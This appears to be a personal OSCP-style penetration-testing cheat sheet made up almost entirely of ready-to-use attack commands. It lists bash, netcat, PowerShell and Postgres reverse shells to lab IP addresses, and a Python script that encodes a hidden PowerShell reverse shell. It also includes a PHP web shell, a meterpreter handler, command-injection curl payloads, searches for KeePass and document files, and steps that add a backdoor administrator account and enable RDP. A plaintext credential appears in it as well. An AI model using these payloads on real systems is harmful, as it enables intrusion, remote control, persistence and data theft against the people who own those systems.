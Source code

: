 - SSH connection to OSCP machines
```
ssh -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" learner@192.168.50.52
```
- Bash One-Liners
```
	for ip in $(cat list.txt); do host $ip.megacorpone.com; done
```
- SecLists Project - collection of wordlists
- PHP command execution
```
<?php echo system($_GET['cmd']); ?>
```
- One liner reverse shell
```
bash -i >& /dev/tcp/192.168.119.3/4444 0>&1

bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"

bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.217%2F4444%200%3E%261%22


rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.118.2 1234 >/tmp/f

```

- powershell one liner reverse shell

```
$client = New-Object System.Net.Sockets.TCPClient('192.168.45.230',4444);$stream =$client.GetStream();[byte[]]$bytes = 0..65535|%{0}while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex '. { $data } 2>&' | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
![[rev.ps1]]

Base64 encoding for powershell
```
$MyBase6 = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('$client = New-Object System.Net.Sockets.TCPClient("192.168.45.",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()' ))

$Bytes=[Convert]::FromBase64String($Text)
[System.Text.Encoding]::Unicode.GetString($Bytes)
```

msfconsole 

```
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 192.168.50.1;set LPORT 443;run;"

```
find using powershell

Get-ChildItem -Path C:\ -Include \*.kdbx -File -Recurse -ErrorAction SilentlyContinue

Get-ChildItem -Path C: -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue

download powershell

```
iwr -uri http://192.168.118.2/winPEASx64.exe -Outfile winPEAS.exe
iwr -uri http://192.168.45.204:9090/Seatbelt.exe -Outfile seat.exe
```

network scanning
for i in $(seq 1 254); do nc -zv -w 1 172.16.203.$i 445; done

xfreerdp /u:justin /p:_SuperS3cure1337#_ /v:192.168.203.202

curl -X POST http://192.168.174.134:13337/update -H "Content-Type: application/json" -H "X-Forwarded-For: localhost" --data '{"user":"clumsyadmin","url":"http://192.168.45.230:8000/mint"}'

```
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("192.168.118.2",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)

```

php reverse shell

https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php


```
import os
os.popen("id").read()
```

### Upgrade shell

python -c 'import pty; pty.spawn("/bin/sh")'
`   python3 -c 'import pty; pty.spawn("/bin/bash")'   ` #upgrade-shell


curl -X  post --data "code=os.system('nc -e /bin/bash 192.168.45.162 18000')" http://192.168.175.117:50000/verify

```
%0Anc%20192.168.118.3%204444%20-e%20%2Fbin%2Fb

ssh -R 80:0.0.0.0:80 web_svc@192.168.240.147
ssh -N -R 127.0.0.1:60002:127.0.0.1:60002 kali@192.168.xx.xxx

ssh kali@192.168.45.238 -R 1234(kali_port):localhost:5432(victim_port)

```

bash -i>&/dev/tcp/192.168.45.225/8083 0>&1

nmap -sV -p- -oN nmap-all-ports 192.168.250.62

nc -e /bin/bash 192.168.45.162 18000  #nc_shell

https://medium.com/@cybenfolland/linux-privilege-escalation-wildcards-with-tar-f79ab9e407fa

john --wordlist=/usr/share/wordlists/rockyou.txt hash_teacher #mysql_hash_crack

https://github.com/WhiteWinterWolf/wwwolf-php-webshell/blob/master/webshell.php

file upload bypass extension

https://systemweakness.com/proving-grounds-practise-active-directory-box-access-79b1fe662f4d

https://shawnvoong.medium.com/how-to-pass-the-2023-oscp-pen-200-on-the-first-try-part-1-enumeration-a0b272a86cf7

Information Gathering

nmap -p- -sV -sC -v <IPADDRESS> — open

sudo nmap -p 53,67,68,69,111,123,161,162,137,138,139,514,1900,5353,500,445 -sU <IPADDRESS>

autorecon --nmap-append="min-rate=2000" --exclude-tags="top-100-udp-ports" --exclude-tags nikto --dirbuster.threads=40 --dirbuster.tool=gobuster -v 192.168.241.145 

wpscan — url [http://URL](http://URL)  
wpscan — url [http://URL](http://URL) — enumerate p — plugins-detection aggressive

user creation and rdp enable
net user /add jack Password@12345
net localgroup administrators jack /add
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes

asp reverse shell

https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx

postgres reverse shell

COPY temp FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.238 8090 >/tmp/f';

sudo psql --host=127.0.0.1 -U postgres

\! /bin/sh

ntlm relay
